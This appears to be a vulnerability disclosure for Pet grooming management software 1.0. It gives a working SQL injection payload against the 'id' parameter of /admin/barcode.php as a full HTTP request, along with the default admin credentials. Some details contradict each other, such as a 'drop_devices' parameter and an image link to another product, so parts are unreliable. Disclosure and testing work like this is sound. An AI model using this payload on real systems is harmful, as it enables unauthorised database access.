 

# Pet grooming management software - barcode.php '**id**' SQL inject

#### Exploit Title: Pet grooming management software - barcode.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Pet grooming management software does not filter the content correctly at the "barcode.php/id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/barcode.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/
Origin: http://192.168.67.28:8021
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Cookie: PHPSESSID=e68auo56o4aja1o1vp829pfesl
Cache-Control: max-age=0
Content-Length: 45

id=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#
```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、By examining the /admin/barcode.php code, it was discovered that the drop_devices parameter was concatenated in the SQL statement

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/codebarcode.png)

3、We can construct SQL statements to query the name of the database and the name of  user

payload:`id=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

![image](https://github.com/joinia/webray.com.cn/blob/main/Loan-Management-System/images/sqlbarcode.png)
